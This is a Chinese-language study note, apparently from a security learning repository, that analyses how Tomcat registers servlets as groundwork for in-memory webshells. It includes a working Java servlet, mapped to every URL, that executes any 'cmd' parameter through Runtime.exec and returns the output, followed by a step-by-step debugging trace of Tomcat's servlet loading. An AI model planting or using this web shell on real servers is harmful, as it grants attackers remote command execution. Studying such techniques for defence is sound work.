










# Tomcat内存马之Servlet

## 前言

关于 Servlet 的知识，同样在前面[Servlet](../../01-JavaWeb基础/0-Servlet/Servlet.md)章节已经学习过，这里不再赘述，直接进入分析环节。

## Servlet流程分析

先编写一个 Servlet 实现类
```java
package com.servlet.study;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;

/**
 * Created by dotast on 2022/11/1 11:21
 */
@WebServlet(urlPatterns = "/*")
public class ServletTest extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String cmd = req.getParameter("cmd");
        try{
            InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
            ByteArrayOutputStream bao = new ByteArrayOutputStream();
            byte[] bytes = new byte[1024];
            int a = -1;
            while((a = inputStream.read(bytes))!=-1){
                bao.write(bytes, 0, a);
            }
            resp.getWriter().write(new String(bao.toByteArray()));

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

访问带上参数执行命令


在前面的学习中，我们知道 Servlet 是在`StandardContext#startInternal()`方法里的`loadOnStartup()`进行调用，在这里打上断点


跟进`findChildren()`方法


此时的`children`属性已经存储了我们的 Servlet 实现类`com.servlet.study.ServletTest`，接下来需要寻找在哪里开始添加的以及如何添加。

返回`StandardContext#startInternal()`方法从前面开始看，其中`fireLifecycleEvent()`方法的注释是有关于生命周期的，我们将断点打在该方法上进行调试


跟进该方法


继续跟进`listener.lifecycleEvent()`方法


继续跟进`configureStart()`方法


调用了`webConfig()`方法，继续跟进


开始创建 WebXml 对象，此时`servletMappings`为空，继续往下走


在`context.getServletContext();`处添加了一些 Map 对象，但没有我们创建的`ServletTest`类，继续往下走


这里跟进`processClasses()`方法


这里调用`context.getResources().listResources()`方法获取`/WEB-INF/classes`路径下的内容	
